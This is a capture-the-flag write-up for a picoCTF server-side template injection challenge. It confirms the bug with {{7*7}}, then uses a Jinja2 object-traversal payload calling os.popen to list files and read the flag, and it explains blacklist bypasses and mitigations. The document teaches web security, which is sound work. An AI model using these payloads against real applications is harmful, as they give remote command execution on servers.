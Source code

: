 # Challenge Description
The challenge provides a web application with an input field. The server takes the user-supplied input and renders it back to the page. This behavior suggests the input is being processed by a server-side template engine (like Jinja2, Twig, or Mako).

The core vulnerability, SSTI, occurs when an application insecurely embeds user-controlled input into a template, rather than passing it as data to be rendered. This allows the user to inject template syntax, which the server then executes. Our goal is to first confirm this vulnerability and then escalate it to Remote Code Execution (RCE) to read the flag from the server's file system.

## Solution
The attack proceeds in three phases: detection, enumeration, and exploitation.

1. Detection: Probing for SSTI
First, we must determine if the server is vulnerable by checking how it handles template syntax.

Test 1: Normal Input

Input: Error

Response: Error

Observation: The server reflects our non-malicious input as expected.

Test 2: SSTI Probe

Input: {{7*7}}

Response: 49

Observation: The server did not reflect the literal string {{7*7}}. It evaluated the expression as template code. This is a definitive confirmation of an SSTI vulnerability. The {{ ... }} syntax strongly suggests a Python-based engine like Jinja2.

2. Exploitation: Achieving Remote Code Execution (RCE)
Now that we have a code execution primitive, we must "escape" the template's restricted sandbox to access powerful, dangerous modules (like os in Python) to run shell commands.

The provided payload is a well-known object traversal chain for Jinja2: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

Payload Deconstruction: This payload "walks" the Python object inheritance tree to find the os module:

self: A reference to the current template object.

_TemplateReference__context: Accesses the template's context.

cycler...__init__: Finds a function within the context.

__globals__: Accesses the function's global variables, which contains all loaded Python modules, including os.

os.popen('ls').read(): Accesses the os module, calls popen() to execute the ls command, and uses read() to return its output.

3. Flag Retrieval
We send the payloads to the server via the input field.

Command 1: List Files

Payload: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

Response: (The server's response would list files, e.g., index.py flag.txt)

Observation: We confirm a file named flag or flag.txt exists.

Command 2: Read Flag

Payload: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

Response: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}

Observation: The server executes the cat flag command and returns its output, which is the flag.

## Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bdc95c1a}
```

## Concepts Learnt
Server-Side Template Injection (SSTI): This is the core vulnerability. It occurs when applications insecurely concatenate user input into a template string instead of passing it as data.

Vulnerable: template = "Hello, " + user_input

Safe: template.render(username=user_input) This distinction is critical: in the "Safe" version, the engine treats user_input as plain text. In the "Vulnerable" version, the engine parses user_input as part of the template code.

Vulnerability Detection: The {{7*7}} payload is a simple "polyglot" probe. Different engines use different syntax (e.g., ${7*7}, <%= 7*7 %>). By sending a mathematical operation, we can distinguish between simple reflection (output: {{7*7}}) and code evaluation (output: 49).

Python Object Traversal ("Sandbox Escape"): The exploit payload is a powerful example of RCE. Since the template engine itself is written in Python, its objects and functions exist in the same memory space as the rest of the application. By using Python's "magic methods" like __globals__, __mro__ (Method Resolution Order), and __subclasses__, an attacker can "walk" the object tree to find and call dangerous functions.

Remote Code Execution (RCE): This is the impact of the SSTI. The attacker gains the ability to execute arbitrary commands on the server with the same permissions as the web application. This is one of the most critical vulnerabilities, as it leads to full server compromise.

## Notes
Payload Specificity: The payload {{ self._TemplateReference__context... }} is extremely specific to certain versions of Jinja2 and the application's context. In a real-world scenario, an attacker would enumerate many different payloads (e.g., trying to access {{ config }} or using {{ [].__class__.__base__.__subclasses__() }}) to find one that works.

Automation: Tools like Tplmap are built to automate this entire process. They can detect the template engine, fingerprint the version, and provide a list of working RCE payloads.

Mitigation (The Only Real Fix): The only robust defense against SSTI is to never use user-controlled input to build the template string itself. Always pass user input as data to the template rendering function.

Failed Defenses (Blacklisting): A common but ineffective defense is to blacklist keywords like os, popen, or globals. These are trivial to bypass using string concatenation ('pop' + 'en'), hex encoding, or by finding other, less-obvious-but-still-dangerous modules.

## Resources
1. https://portswigger.net/web-security/server-side-template-injection

2. https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

3. https://owasp.org/www-project-top-ten/2017/A1_2017-Injection

4. httpshttps://github.com/epinna/tplmap
